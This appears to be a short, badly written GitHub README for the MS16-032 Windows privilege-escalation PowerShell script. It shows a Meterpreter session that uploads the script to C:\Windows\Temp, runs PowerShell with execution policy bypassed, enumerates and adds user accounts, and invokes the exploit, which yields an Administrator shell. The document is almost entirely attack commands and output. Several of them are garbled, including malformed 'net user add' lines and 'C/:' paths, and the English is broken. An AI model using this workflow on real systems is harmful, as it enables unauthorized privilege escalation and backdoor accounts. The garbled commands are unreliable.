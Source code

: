 # MS16-032.ps1
This script
Increases the morale of session 
I will explain this gap soon
orders MS-16-032 Manually
 upload /root/Desktop/MS-16-032.ps1 On folder Temp 

meterpreter> shell 

C/: > cd Windows
C/:windows > cd Temp
C/:windows/Temp > powershell -exec bypass 
PS C:\Windows\Temp> net user
PS C:\Windows\Temp> net user marco 
PS C:\Windows\Temp> Import-Module ./MS16-032.ps1
PS C:\Windows\Temp> net user add marco12 /123
PS C:\Windows\Temp> net user add marcous12
PS C:\Windows\Temp> Invoke-MS16-032
 __ __ ___ ___   ___     ___ ___ ___
|  V  |  _|_  | |  _|___|   |_  |_  |
|     |_  |_| |_| . |___| | |_  |  _|
|_|_|_|___|_____|___|   |___|___|___|

               [by b33f -> @FuzzySec]
               
               
Cmd  Administrator  
             
